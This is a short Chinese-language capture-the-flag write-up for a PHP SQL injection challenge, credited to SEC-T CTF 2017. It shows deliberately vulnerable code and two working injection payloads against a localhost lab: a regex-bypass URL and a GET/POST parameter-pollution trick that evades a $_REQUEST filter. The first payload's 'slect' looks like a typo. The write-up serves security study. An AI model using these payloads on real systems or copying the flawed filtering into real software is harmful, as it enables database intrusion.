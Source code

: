 # Challenge 
```php 
<?php
if(isset($_REQUEST['id'])){
	if(preg_match("/'(?:\w*)\W*?[a-z].*(R|ELECT|OIN|NTO|HERE|NION)/i", $_REQUEST['id'])){
		die("Attack detected!!!");
	}
}

$sql = "select * from xxx where id = '{$_GET['id']}'";
echo $sql;
$result = sql_query($_GET['id']);
?>
```

# Solution 
## 法一
正面刚正则匹配。
payload：
```
http://localhost:2500/?id=1'/*1*/union slect * from flag %23
```
## 法二
[$_REQUEST](http://php.net/manual/zh/reserved.variables.request.php)变量默认情况下包含了 $_GET，$_POST 和 $_COOKIE 的数组。在 php.ini 配置文件中，有一个参数variables_order
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/5.png?raw=true)

其中几个字母（EGPCS）对应如下： Environment, Get, Post, Cookie, Server。这些字母的出现顺序，表明了数据的加载顺序。从三种默认配置来看，相对顺序均是`GP`，也就是说只要有POST参数进来，那么它就会覆盖同名的GET参数。如下图；
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/6.png?raw=true)

所以就本题而言，如果在GET参数id处注入数据（比如 union select），而同时我们又通过POST方法传入一个id参数，那么服务器检测的是无害的POST数据，而在进行查询时带入的是有害的GET数据。

payload：
```
http://localhost:2500/?id=1' union select * from flag %23

POST: id=1
```
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170914/9.png?raw=true)

# Refference
+ SEC-T CTF 2017 Naughty ads - Web